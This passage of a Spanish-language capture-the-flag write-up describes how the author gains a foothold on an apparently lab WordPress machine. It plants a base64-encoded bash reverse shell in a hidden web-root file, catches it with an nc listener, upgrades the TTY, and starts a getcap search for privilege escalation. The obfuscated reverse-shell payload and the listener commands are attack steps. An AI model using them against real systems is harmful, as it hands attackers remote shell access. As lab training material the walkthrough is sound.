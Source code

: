 Ahora en la maquina victima, pondremos lo siguiente:

```shell
nano /var/www/html/.wp-encrypted.txt

#Dentro del nano
L2Jpbi9iYXNoIC1jICcvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC41LjE4Ni83NzU1IDA+JjEnCg==
```

Lo guardamos y seguidamente nos pondremos a la escucha en nuestro `host`:

```shell
nc -lvnp <PORT>
```

Solo tendremos que esperar un ratito y veremos lo siguiente en la escucha:

```
listening on [any] 7755 ...
connect to [192.168.5.186] from (UNKNOWN) [172.17.0.2] 48630
bash: cannot set terminal process group (945): Inappropriate ioctl for device
bash: no job control in this shell
kvzlx@c103b3df70e5:~$ whoami
whoami
kvzlx
```

Vemos que ya somos el usuario `kvzlx`.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate Privileges

Si vemos las `capabilities` que tiene el usuario, veremos lo siguiente:

```shell
/sbin/getcap -r / 2>/dev/null
```

Info:

